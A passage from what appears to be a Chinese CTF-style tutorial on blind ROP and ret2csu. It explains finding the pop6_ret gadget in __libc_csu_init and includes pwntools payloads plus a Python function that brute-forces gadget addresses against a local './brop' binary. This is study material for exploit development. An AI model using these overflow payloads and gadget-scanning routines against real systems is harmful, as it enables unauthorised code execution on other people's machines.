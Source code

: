 而 pop6_ret 是 __libc_csu_init 函数所固有的。 

PS : ret2csu 的一个好处，就是能够控制 rdx 。

gcc - 11 之后的版本，取消了 pop6_ret 这个指令。这也是编译时候的一个安全保护



### STEP 2 :  获取 pop rdi ; ret -> pop6_ret 指令

爆破方法 : 即利用 pop6_ret 的独特性

```py
sa(b'>>\n', b'a'*0x18 + p64(pop6_ret) + p64(1)*6 + p64(stop_gadget)) 
```

明显的，直接爆破 pop rdi ; ret 是不可行的

```python
sa(b'>>\n', b'a'*0x18 + p64(pop_rdi_ret) + p64(1) + p64(stop_gadget)) 
```

因为不能保证爆出的一定是 pop_rdi_ret

爆破函数代码

```python
def find_pop6_ret(buf_size, stop_gadget, start_addr = 0x400000, end_addr = 0x401000):
    pop6_ret = start_addr
    stop_gadget = stop_gadget

    while True:
        time.sleep(0.1)
        pop6_ret += 1
        if(pop6_ret > end_addr):
        	log.info('not found')
        	return 0
        payload = b'a' * buf_size + p64(pop6_ret) + p64(0) * 6 + p64(stop_gadget) 
        try:
            p = process('./brop')
            p.sendafter('>>\n', payload)
            resp = p.recv(timeout=0.5)
            p.close()
            log.info("find one stop_gadget: 0x%x", pop6_ret)

            if b'>>' in resp:
                try:
                    payload = b'a' * buf_size + p64(pop6_ret)
                    p = process('./brop')
                    p.sendafter('>>\n', payload)
                    p.recv()
                    p.close()
                except EOFError as e:
                    p.close()
                    log.info("find useful gadget: 0x%x", pop6_ret)
                    return pop6_ret
        except EOFError as e:
            p.close()
            log.info("not 0x%x,try harder", pop6_ret)
```
